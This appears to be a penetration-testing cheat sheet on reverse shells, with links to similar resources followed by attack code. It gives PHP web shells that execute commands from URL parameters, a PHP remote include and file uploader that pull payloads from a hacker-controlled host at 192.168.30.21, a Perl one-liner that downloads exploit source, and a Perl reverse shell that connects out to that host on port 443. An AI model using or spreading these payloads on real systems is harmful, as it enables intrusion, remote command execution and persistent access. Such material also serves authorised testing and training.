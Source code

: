 # Reverse Shell
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
[Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
[lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
 [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
http://pentestmonkey.net/blog/post-exploitation-without-a-tty

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
